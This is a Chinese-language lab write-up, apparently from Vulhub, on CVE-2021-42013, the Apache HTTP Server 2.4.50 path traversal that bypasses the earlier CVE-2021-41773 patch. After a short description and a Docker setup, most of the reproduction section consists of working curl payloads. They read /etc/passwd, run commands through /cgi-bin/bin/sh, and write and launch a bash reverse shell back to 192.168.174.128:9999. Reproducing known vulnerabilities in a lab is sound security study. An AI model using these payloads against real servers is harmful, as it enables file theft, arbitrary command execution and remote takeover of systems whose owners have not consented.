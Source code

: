 # Apache HTTP Server 2.4.50 路径穿越漏洞 CVE-2021-42013

## 漏洞描述

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## 环境搭建

Vulhub执行如下命令编译及运行一个存在漏洞的Apache HTTP Server 2.4.50版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞复现

使用CVE-2021-41773中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但可以使用`.%%32%65`进行绕过，`.%%32%65`是对`%2e`再次URL编码后的结果（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到`/etc/passwd`：

![image-20220221184635747](images/202202211846028.png)

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![image-20220221184737284](images/202202211847459.png)

写入反弹shell

```
curl -v --data "echo;echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1'>> /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

执行反弹shell

```
curl -v --data "echo;bash /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![image-20220221184841656](images/202202211848741.png)

